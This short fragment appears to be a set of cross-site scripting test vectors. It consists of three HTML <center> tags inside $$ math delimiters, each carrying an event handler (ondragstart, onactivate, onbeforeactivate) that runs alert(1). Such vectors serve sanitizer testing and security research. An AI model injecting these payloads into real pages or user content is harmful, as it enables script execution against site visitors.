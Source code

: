 $$<center draggable="true" ondragstart="alert(1)">test</center>$$
$$<center id=x tabindex=1 onactivate=alert(1)></center>$$
$$<center id=x tabindex=1 onbeforeactivate=alert(1)></center>$$
